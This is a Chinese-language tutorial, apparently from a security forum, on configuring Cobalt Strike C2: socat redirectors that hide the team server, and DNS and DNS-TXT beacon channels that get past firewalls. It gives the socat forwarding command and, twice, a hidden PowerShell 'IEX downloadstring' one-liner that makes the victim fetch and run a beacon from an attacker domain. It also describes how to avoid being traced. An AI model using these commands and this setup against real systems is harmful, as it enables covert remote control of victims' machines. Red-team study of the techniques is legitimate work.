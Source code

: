 Cobalt Strike重定器与DNS beacon的使用原理分析
==================================

前言
--

Cobaltstrike在渗透中可以说是神器，而我们需要掌握它的技术也是要花一定时间的，下面主要介绍重定器、DNS beacon的使用，也是cobaltstrike中相对更难操作的部分。

Cobalt Strike使用重定器
------------------

### 重定器简介

“重定器”是一个在“cobalt strike”服务器和目标网络之间的服务器。这个“重定器”的作用是对你团队服务器下的连接，进行任意的连接或返回。（注：即通常说的代理服务器或端口转发工具）“重定器”服务（在攻击和防御中）是很重要的角色。

### Socat简介

工具socat （一款端口重定向工具） 我们用它来建立80端口上的连接管理，并且继续在80端口运行那个连接团队服务器的连接。socat是一个两个独立数据通道之间的双向数据传输的继电器, socat的主要特点就是在两个数据流之间建立通道；且支持众多协议和链接方式:ip,tcp,udp,ipv6,pipe,exec,system,open,proxy,openssl,socket等。

### 使用重定器的作用

1.保护服务器地址，并作为攻击者，它也是一个很好的安全操作。  
2.给予了一些很好的适应能力 假如你们的工具中有一两个堵塞了没有大不了的，也可以进行通信。

### 操作演示

**拓扑图**  
由于电脑性能问题，所以将r3也写入到192.168.0.156主机中  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-715914cfc15cf4f08ceccc4c1d2878faaf546df7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-715914cfc15cf4f08ceccc4c1d2878faaf546df7.png)  
当目标网络访问teamserver时，需要经过r1.team.com、r2.teamcom、r3.team.com中任意一台主机充当中介进行访问，同时三台主机中任意一台出现故障，又可以通过其他两台主机进行通信，可以很好的防止单点故障问题。  
**dns信息图**  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-079f9b7bdb6ba0489f19fd74ab45dc6e18a66b25.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-079f9b7bdb6ba0489f19fd74ab45dc6e18a66b25.png)  
在每个重定向的Ubuntu上用socat进行转发  
`socat TCP4-LISTEN:80,fork TCP4:t.team.com:80`  
当运行出现以下问题时说明80端口被占用，需要关闭apache服务或者相关进程  
socat\[3191\] E bind(5, {AF=2 0.0.0.0:80}, 16): Address already in use  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a94c73f5d8902ce2cad9aed30f52abc76852e1b8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a94c73f5d8902ce2cad9aed30f52abc76852e1b8.png)  
查看使用80端口的进程  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dd0d1d082d93d88215e3a9e9bdc0dda47df55c56.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dd0d1d082d93d88215e3a9e9bdc0dda47df55c56.png)  
关闭进程  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c5286bdbd65522160c1f04cd65c00e2b4bea500.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c5286bdbd65522160c1f04cd65c00e2b4bea500.png)  
成功使用socat转发  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d9f32a2e89ba2ee0196e87eeff8d24bd470b447e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d9f32a2e89ba2ee0196e87eeff8d24bd470b447e.png)  
**判断重定向是否正常**  
打开cobalt strike web日志 浏览器访问以下网址  
<http://r1.team.com/r1>  
<http://r2.team.com/r2>  
<http://r3.team.com/r3>  
日志信息正确  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-782aeaf60d40cac7909feb8bf617f85b44b3118f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-782aeaf60d40cac7909feb8bf617f85b44b3118f.png)  
**接下来创建powershell**   
设置监听器  
此时的主机可以是r1,r2,r3，因为r1也会将信息转发到teamserver中，监听的端口为80  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b0058595ebdc118fa865688d8fac29a0d51a8564.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b0058595ebdc118fa865688d8fac29a0d51a8564.png)  
填写两个域名 分别是r2.team.com,r3.team.com 当其中一个断开或者堵塞的时候会自动访问另外一个。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a845ee5193d571e9a93766ab4e4dc764f5005b41.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a845ee5193d571e9a93766ab4e4dc764f5005b41.png)  
创建脚本web传递攻击  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cbc615d3245fa178a5c8348848a60e7e965eecfa.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cbc615d3245fa178a5c8348848a60e7e965eecfa.png)

在目标上运行指令 目标上线  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bca3b54c675d1b9def324bcb5948c1a301270fe1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bca3b54c675d1b9def324bcb5948c1a301270fe1.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c0020b01540f8cd2e17b1d206ca8746ef5a25fa9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c0020b01540f8cd2e17b1d206ca8746ef5a25fa9.png)  
**抓包分析**  
通过wireshark抓包可以看到被控制端首先通过r2.team.com与r3.team.com与服务器建立连接，可以很好的防止溯源  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d1bfe24295f4d8e8df0d4f2c817273199ab798bb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d1bfe24295f4d8e8df0d4f2c817273199ab798bb.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8c72de4018f4520c0e055900e9ffcef904b2b442.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8c72de4018f4520c0e055900e9ffcef904b2b442.png)

Cobalt Strike DNS Beacon的使用与原理
------------------------------

### dns木马

dns beacon的工作过程  
dns木马因为隐蔽性好，在受害者不会开放任何端口 可以规避防火墙协议，走的是53端口 (服务器)，防火墙不会拦截，缺点响应慢。

### dns beacon的工作过程

在 dns beacon使用dns隧道的过程  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9a661317211895e55b94c87042efcaa107c06d97.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9a661317211895e55b94c87042efcaa107c06d97.png)  
受害者在执行我们的传输器下载完木马之后就会发出a记录的请求，受害者首先会请求本地的hosts文件 ，再去请求本地的dns 能不能告诉123456.test.1377day.com 的ip多少，问com的dns 没有就会去查找dnspot的dns 如果都不存在 就会去查找名如果本地dns存在记录就返回ip，没有就会去查找root 根dns 不存在记录， 接着就会查找名称服务器。 在teasmserver的服务器上也有dns 刚好存在记录 就会返回ip 同时teasmserver 会有dns beacon的信息 返回受害者 受害者再请求危险的a记录到teamserver。 这就是dns beacon的工作过程。

### DNS beacon的类型

**windows/beacon\_dns/reserve\_http （传输数据小）**  
有效载荷通过HTTP连接分阶段。当您创建此侦听器时，请注意您正在配置主机和端口Cobalt Strike将使用通过HTTP分阶段此有效负载。当您选择设置此有效负载时，Cobalt Strike在端口53上站起来的DNS服务器。  
**beacon\_dns/reserve\_http（支持命令切换到该模式：mode dns）**  
将http通信方式，改为了使用dns的a记录方式进行通信。速度较慢，但非常隐蔽，推荐使用！  
**beacon\_dns/reserve\_dns\_txt（支持命令切换到该模式：mode dns-txt）**  
同上，只是改为使用dns的txt方式进行通信，传输的数据量更大，推荐使用！  
**windows/beacon\_dns/reverse\_dns\_txt （传输数据大）**  
有效负载使用DNS TXT记录下载和分级混合HTTP和DNS beacon。当您创建此侦听器时，请注意，您正在配置该有效负载将用于HTTP通信的端口。再次，Cobalt Strike知道在53端口站起来一个DNS服务器。  
以上都是非持续性的工作。

### 域名创建ns指向

如果没有域名，可以使用申请Freenom免费域名，并使用DNSPod解析  
请参考：<https://www.cnblogs.com/ssooking/p/6364639.html>  
首先创建a记录test.1377day.com 指向 teamserver  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5b2fea71532fd81c7d1336badc62fcf3a17c3ec8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5b2fea71532fd81c7d1336badc62fcf3a17c3ec8.png)  
新建监听器  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5a38224584f14ce24b111834de419d52276df9c7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5a38224584f14ce24b111834de419d52276df9c7.png)  
然后填写我们的NS记录  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-94cd384f76cba9b39dbd734d988e694c5a8a17ce.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-94cd384f76cba9b39dbd734d988e694c5a8a17ce.png)  
查看设置的记录是否成功  
123456(这个是任意的)  
nslookup 123456.c1.1377day.com，以下说明成功指向teamserver，说明记录设置成功  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f64e1f1284fbb80b9fecf09a47f751f64a6c388c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f64e1f1284fbb80b9fecf09a47f751f64a6c388c.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-21e0e03aee32eb84be0390dec0e3a3522358dee5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-21e0e03aee32eb84be0390dec0e3a3522358dee5.png)  
此时可知a记录成功指向teamserver  
dig +trace 123456.c1.1377day.com  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-78488bf380acf119c07dee722925b960f57c0fab.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-78488bf380acf119c07dee722925b960f57c0fab.png)

### DNS传输模式

创建脚本web传递攻击  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-471ed4155c252ce4b6a378a12f670e33bbd5d69b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-471ed4155c252ce4b6a378a12f670e33bbd5d69b.png)  
在被控制端执行该命令  
`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://test.1377day.com:80/a'))"`  
成功上线后，使用wireshark抓包分析，可以清楚的观察到47975.c3.1377day.com的记录，说明使用了dns传输模式  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aefaaa95f48c7122a1b0d89bb56d46a233474861.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aefaaa95f48c7122a1b0d89bb56d46a233474861.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3efb8ee69feb3cb258ebdd3054d99bea22e6cfa1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3efb8ee69feb3cb258ebdd3054d99bea22e6cfa1.png)

### dns-txt传输模式

创建脚本web传递攻击  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7f9ce0af5ad4d8ba49398096d0504c75f5022f17.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7f9ce0af5ad4d8ba49398096d0504c75f5022f17.png)  
在被控制端执行该命令  
`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://test.1377day.com:80/dns'))"`  
成功上线后，使用wireshark抓包分析，可以清楚的观察到使用了dns-txt传输模式  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dc68a6aeeebd3a199b19e0a5ee47f170c9d43fbf.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dc68a6aeeebd3a199b19e0a5ee47f170c9d43fbf.png)
